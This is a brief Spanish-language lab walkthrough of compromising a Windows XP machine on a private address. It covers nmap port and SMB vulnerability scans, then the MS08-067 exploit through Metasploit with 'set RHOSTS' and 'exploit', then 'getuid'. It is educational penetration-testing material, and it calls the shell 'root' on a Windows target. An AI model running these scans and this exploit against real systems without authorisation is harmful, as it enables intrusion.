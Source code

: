 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Experience

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.139
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.139 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **135, 139 y 445** pertenecientes a servicios de **Microsoft RPC, NetBIOS-SSN y Microsoft-DS** están abiertos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.139
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un Windows XP. Revisamos el puerto 445.

```bash
nmap -p445 --script="smb-vuln-*" 192.168.1.139
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-01-31 185518.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos explotar MS08-067 con Metasploit.

```bash
set RHOSTS 192.168.1.139
exploit
```

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
getuid
```

aún somos **root.**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
